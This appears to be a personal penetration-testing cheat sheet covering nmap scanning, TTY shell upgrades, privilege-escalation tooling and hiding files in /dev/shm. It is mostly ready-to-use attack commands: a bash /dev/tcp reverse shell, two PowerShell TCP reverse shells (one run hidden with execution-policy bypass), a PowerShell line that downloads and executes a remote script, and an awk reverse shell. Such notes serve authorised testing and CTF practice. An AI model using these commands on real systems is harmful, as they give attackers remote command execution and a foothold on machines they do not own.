 ## DATA COLLECTION 

```nmap -sV -sC -oA <ip> <outputfile>```

Dirb any available port 80 address

### TTY SHELL

```python -c 'import pty; pty.spawn("/bin/sh")'```

https://netsec.ws/?p=337

### IPPSEC explains terminal upgrades tty

CTRL + Z (Background process)
stty raw -echo (local term don't process tabs, send through to terminal)
fg (foreground shell)


https://youtu.be/CYeVUmOar3I?t=789

### PRIVESC 

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh

## STORE FILES IN MEM

```/dev/shm```

Upload any files to Ram disk that will clear on reboot.

## REVERSE SHELL

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell

## BASH RS

```bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'```

## Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
## Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### SHELL COMMANDS

```SHELL=/bin/bash script -q /dev/null```

Explanation for /dev/null
https://askubuntu.com/questions/306047/what-does-the-script-dev-null-do
